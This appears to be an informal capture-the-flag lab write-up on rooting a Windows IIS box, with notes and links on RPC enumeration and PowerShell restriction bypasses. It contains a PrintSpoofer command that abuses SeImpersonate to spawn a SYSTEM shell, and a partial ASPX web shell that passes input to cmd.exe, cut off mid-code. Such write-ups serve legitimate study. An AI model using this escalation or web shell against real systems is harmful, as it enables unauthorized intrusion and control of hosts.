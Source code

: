WTF is this machine. Lets AV with msfvenom in 2023 and be humbled into the crater of humility on this one.
![](learnintomsfvenom.png)
## Privilege Escalation To NT System

Another SeImpersonate Privilege Escalation to whine about. This time I watch the video to understand what I was going wrong from the various Proving Ground boxes of late 2023. This is actually it:
```powwershell
.\printspoofer.exe -i -c cmd
```

![](root.png)
## Post-Root-Reflection  

- Sometimes it is not you 
- Sometimes the boxes are robot.txt levels of WTF.
- FINALLY ALL SeImpersonate boxes will aGAIN BE MINE!!!
- Sometimes boxes are of there time
- msfvenom is still worth considering.
## Beyond Root

Update my rpc cheatsheet
- https://cheatsheet.haax.fr/network/services-enumeration/135_rpc/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration
- https://www.hackingarticles.in/active-directory-enumeration-rpcclient/

powershell
- https://www.ired.team/offensive-security/code-execution/powershell-without-powershell
- https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass

IIS 
- https://stackify.com/w3wp-exe-iis-worker-process/

upx --ultra
- https://sibprogrammer.medium.com/go-binary-optimization-tricks-648673cc64ac

- https://black.vercel.app/ python formatter

Note - Nothing in this room requires Metasploit

Learn some ASP - does not work,  just powershell does not work
```asp
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
```